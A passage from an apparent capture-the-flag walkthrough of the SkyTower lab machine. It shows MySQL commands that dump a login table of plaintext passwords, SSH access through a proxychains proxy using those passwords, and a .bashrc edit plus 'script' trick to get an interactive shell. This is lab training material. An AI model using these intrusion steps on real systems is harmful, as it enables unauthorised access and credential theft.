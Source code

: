 ```console
mysql -u root -proot -e "show databases"
Database
information_schema
SkyTech
mysql
performance_schema
```

Enumerating the SkyTech database tables.

```console
mysql -u root -proot -e "use SkyTech; show tables"
Tables_in_SkyTech
login
```

Retrieving the records from the table login.

```console
mysql -u root -proot -e "use SkyTech; select * from login"
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```

## Privilege Escalation
### Password Disclosure

We have the password for the users in plain text, so we login via SSH as user sara.

```console
root@kali:~$ proxychains ssh sara@192.168.179.175 /bin/bash           
[proxychains] config file found: /etc/proxychains4.conf                       
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4          
[proxychains] DLL init: proxychains-ng 4.14                                     
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
sara@192.168.179.175's password:                                
id                                                             
uid=1001(sara) gid=1001(sara) groups=1001(sara)
```

As we see we don't have an interactive shell, that's annoying, if we check the last three lines of the .bashrc file, that's what interrupts that we can access the system and have a shell. 

```console
tail -n 3 .bashrc
echo
echo  "Funds have been withdrawn"
exit
```

We can remove the last three lines from the .bashrc file and get a TTY shell, as follows:

```console
mv .bashrc bashrc   
sed -n '1,111p' bashrc > .bashrc
script -qc /bin/bash /dev/null
sara@SkyTower:~$ id  
uid=1001(sara) gid=1001(sara) groups=1001(sara)
```
